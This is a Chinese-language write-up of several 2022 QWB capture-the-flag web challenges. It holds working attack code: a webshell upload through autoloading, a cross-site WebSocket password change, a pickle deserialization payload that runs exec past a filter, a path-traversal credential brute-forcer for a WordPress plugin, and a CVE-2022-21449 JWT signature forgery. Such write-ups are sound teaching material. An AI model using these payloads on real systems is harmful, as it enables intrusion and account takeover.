


# 2022-qwb

## rcefile

www.zip泄漏得到源码，可以上传文件但是后缀有限制，因为用了`spl_autoload_register();`，传一个后缀为.inc的马然后自动加载即可：

```
userfile=O:32:"363f4230e9f9e0dda5ddb25ffd8c50b7":0:{}
```



## babyweb

查一下，根据f12可以知道用的websocket和bot通信的，根据题目表述拿ws打一下8888端口：

```html

<!DOCTYPE html>
<html lang="zh-CN">
<head>
    <meta charset="utf-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1">
    <title>后台管理系统</title>
    <!--自定义函数-->
    <script>
    function sendtobot() {
        var ws = null;
        var url = "ws://127.0.0.1:8888/bot";
        ws = new WebSocket(url);
        ws.onopen = function (event) {
            ws.send("changepw admin")
        }
        ws.onmessage = function (ev) {
                    botsay(ev.data);
                };
    }
        function botsay(content) {
            document.getElementById("chatbox").append("bot: " + content + "\r\n");
        }
    
    </script>
    <script>sendtobot();</script>

    <!-- Bootstrap -->
    <link href="http://59.110.212.61:41478/static/bootstrap.css" rel="stylesheet">

    <!-- HTML5 shim 和 Respond.js 是为了让 IE8 支持 HTML5 元素和媒体查询（media queries）功能 -->
    <!-- 警告：通过 file:// 协议（就是直接将 html 页面拖拽到浏览器中）访问页面时 Respond.js 不起作用 -->
    <!--[if lt IE 9]>
    <script src="https://cdn.jsdelivr.net/npm/html5shiv@3.7.3/dist/html5shiv.js"></script>
    <script src="https://cdn.jsdelivr.net/npm/respond.js@1.4.2/dest/respond.js"></script>
    <script type="text/javascript" src="jquery-1.7.2.js"></script>
    <![endif]-->
</head>
<body>
<nav class="navbar navbar-default" role="navigation">
    <!-- Brand and toggle get grouped for better mobile display -->
    <div class="navbar-header">
        <button type="button" class="navbar-toggle" data-toggle="collapse" data-target=".navbar-ex1-collapse">
            <span class="sr-only">Toggle navigation</span>
            <span class="icon-bar"></span>
            <span class="icon-bar"></span>
            <span class="icon-bar"></span>
        </button>
        <a class="navbar-brand" href=".">主页</a>
    </div>
    <!-- Collect the nav links, forms, and other content for toggling -->
    
    <div class="collapse navbar-collapse navbar-ex1-collapse">
        <ul class="nav navbar-nav navbar-right">
            <li><a href="/logout">登出</a></li>
        </ul>
    </div><!-- /.navbar-collapse -->
</nav>
<div style="padding: 100px 100px 10px;">
    <div class="form-group">
        <label for="name">一个好用简约的bot</label>
        <textarea class="form-control" rows="15" id="chatbox"></textarea>
    </div>
    <div class="form-group">
        <label for="name">输入框</label>
        <input type="text" class="form-control" placeholder="输入 help 查看bot使用方法" id="sendbox">
    </div>
    <div class="form-group" style="display: flex;flex-direction: column;align-items: flex-end;">
        <button type="button" class="btn btn-info" style="width: 20%;" onclick="sendtobot()">发送</button>
    </div>
</div>
<!-- jQuery (Bootstrap 的所有 JavaScript 插件都依赖 jQuery，所以必须放在前边) -->
<script src="http://59.110.212.61:41478/static/jquery.js"></script>
<!-- 加载 Bootstrap 的所有 JavaScript 插件。你也可以根据需要只加载单个插件。 -->
<script src="http://59.110.212.61:41478/static/bootstrap.js"></script>
</body>
</html>

```

改admin密码之后登进入买hint后代码审计，发现python处`data = request.get_json()`取的product应该是偏后的，Go中`jsonparser`

取的是偏前的，所以因为解析的问题拿逻辑漏洞的方式打就行：

```json
{"product":[{"id":1,"num":0},{"id":2,"num":-1}],
"product":[{"id":1,"num":0},{"id":2,"num":0}]}
```

实际上如果二者解析的都是偏后的，可以直接写money来覆盖掉前面的money，同样可以打通。


## crash

首页有源码，审计一下有pickle的反序列化：

```python
@app.route('/balancer', methods=['GET', 'POST'])
def flag():
    pickle_data=base64.b64decode(request.cookies.get("userdata"))
    if b'R' in pickle_data or b"secret" in pickle_data:
        return "You damm hacker!"
    os.system("rm -rf *py*")
    userdata=pickle.loads(pickle_data)
    if userdata.token!=hash(get_password(userdata.username)):
        return "Login First"
    if userdata.username=='admin':
        return "Welcome admin, here is your next challenge!"
    return "You're not admin!"
```

需要username为admin但是secret又不知道，所以需要反序列化来设置，ban了R和secret，利用字符串拼接即可绕过：

```python
import base64

data=b'''(cbuiltins
exec
S's="import admin;admin.secr"+"et='feng'";exec(s)'
o.'''
print(base64.b64encode(data))
```

然后先反序列化一次修改secret，再`/login?username=admin&password=feng`即可进入服务器负载均衡设置页面，f12看到flag在504页面和一个nginx的配置文件，对应了负载均衡的功能：

```conf
    location /gettestresult {
            default_type text/html;
            content_by_lua '
                local resty_roundrobin = require "resty.roundrobin"
                local server_list = {
                    [ngx.var.arg_server1] = ngx.var.arg_weight1,
                    [ngx.var.arg_server2] = ngx.var.arg_weight2,
                    [ngx.var.arg_server3] = ngx.var.arg_weight3,
                }
                local rr_up = resty_roundrobin:new(server_list)
                for i = 0,9 do
                    ngx.say("Server seleted for request ",i,": &nbsp;&nbsp;&nbsp;&nbsp;" ,rr_up:find(),"<br>")
                end
            ';
    }
```

查一下https://blog.csdn.net/weixin_43931625/article/details/125929924，猜测如果给的server是找不到的，权重也都为0的话，代理就无法得到响应，或许会504：

```
gettestresult?server1=1&weight1=0&server2=1&weight2=0&server3=1&weight3=0
```

等了很久确实出了flag



## WP-UM

user-meta有个Path遍历的洞，利用这个爆一下用户名和密码：

```python
import requests
url="http://eci-2ze8d2tyn8usptnvyg2q.cloudeci1.ichunqiu.com/wp-admin/admin-ajax.php"
result = ""
for i in range(1,11):
    for j in "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ":
        payload = str(i)+j
        print(payload)
        data={
            "field_name":"test",
             "filepath":"/../../../../../../../../username/"+payload,
            "field_id":"um_field_4",
            "form_key":"Upload",
            "action":"um_show_uploaded_file",
            "pf_nonce":"b2841903d1",
            "is_ajax":"true"
        }
        r=requests.post(url=url,data=data)
        if "Remove" in r.text:
            result+=j
            print("result:"+result)
            break


```

登陆wp后台后改404页面getshell，然后grep搜出来flag在`/usr/local/This_1s_secert`


## myJWT

CVE-2022-21449，参考：https://zhuanlan.zhihu.com/p/502308021，Java漏洞，当进行ECDSA认证时存在要求r和s都大于等于1，但存在此漏洞的java环境没有对此进行检查，且由于ECDSA对签名的认值机制当r和s都等于0时可以正常通过认证，此时只需要将jwt中的签名部分替换为base64编码的0即可：

```python
import base64


# s1 = b'eyJ0eXAiOiJKV1QiLCJhbGciOiJteUVTIn0=.eyJpc3MiOiJxd2IiLCJuYW1lIjoiankiLCJhZG1pbiI6ZmFsc2UsImV4cCI6MTY1OTI1MjcxNjM4NX0=.KI715AzGyoLE46mxhxrippE-4UiPcAP0aUGsqONvFvcreF658oz0E1l-cFz3PUmp0zIrzngbb-AZR8g-CpxHuqnBpTC-c3YlgTgXF4fFYKC3Mg0UKHGBa8h5qflrj-hC'.split(b'.')
s1 = input()
for i in range(len(s1)-1):
    print(base64.b64decode(s1[i]))

payload = base64.b64decode(s1[1]).replace(b'false', b'true')

exp = s1[0] + b'.' + base64.b64encode(payload) + b'.' + base64.b64encode(bytes(int(128/4*3)))
print(exp)
```

